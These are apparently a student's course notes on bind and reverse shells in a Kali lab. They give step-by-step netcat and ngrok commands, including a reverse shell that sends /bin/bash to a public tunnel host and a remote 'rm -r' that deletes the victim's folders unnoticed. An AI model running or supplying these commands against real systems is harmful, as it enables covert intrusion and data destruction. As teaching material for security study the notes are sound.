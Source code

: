		- output <br><img src="../notes-pics/03-Module/20_lecture/20_lecture-11-M3.jpg" alt="" width="500"/>
		- in output , "`0.tcp.in.ngrok.io:15576 --> localhost:8686`" : means <br>> "`0.tcp.in.ngrok.io`" : is a IP-address & "`15576`" : is a port no.  = means a client<br>- & overall means if someone connect on these IP-address & a port no. then <br>that person will come in localhost:8686 (i.e server) ✔
	- STEP 2 : another person is a attacker (i.e client) & in his/her kali terminal , run `nc -v 0.tcp.in.ngrok.io 15576`
	- STEP 3 : inside attacker (i.e client) system , when he/she run , `sudo su``ls` <br>- output : all the files & folders of the server (i.e Victim) will be shown
	- now we can perform any operations like deleting a folder or folder permanently of Victim system (i.e server), etc
	- STEP 4 : inside attacker (i.e client) system , run `rm -r <folder-name>` , <br>output : inside Victim system (i.e server) that folder will be removed permanently
	- STEP 5 : inside attacker (i.e client) system , press `CTRL + C` : to stop the connection
	- so in Bind Shell , 2 systems are connected each other & we can access the Victim's system <br>- & Victim will not get any idea about it
- Practical Work : Reverse Shell
	- STEP 1 : inside attacker (i.e server) kali terminal , run `nc -lvp 8686` : means we're opining a port no. i.e 8686 <br>STEP 1.1 : inside attacker (i.e server) kali terminal , run `ngrok tcp 8686` <br>- "ngrok tcp 8686" command : means ngrok will provide a Public Static IP address ✔ <br>- "8686" command : this port no. is of attacker system ✔
	- we as a attacker (i.e server) will make a command for a Victim (i.e client) system <br>- i.e `nc -v 0.tcp.in.ngrok.io 15576 -e /bin/bash` : so this command for Victim system
	- STEP 2 : inside Victim (i.e client) kali terminal , run `nc -v 0.tcp.in.ngrok.io 15576 -e /bin/bash`
		- output : attacker will get the access of files & folders of Victim's system (i.e client)
		- "`nc -v 0.tcp.in.ngrok.io 15576 -e /bin/bash`" : means we (as a attacker/server) saying to Victim (i.e client) <br>that come on my/attacker's server (cuz my server is open) & connect on this server <br>& once u/Victim connecting - bring the location (i.e /bin/bash i.e terminal) ✔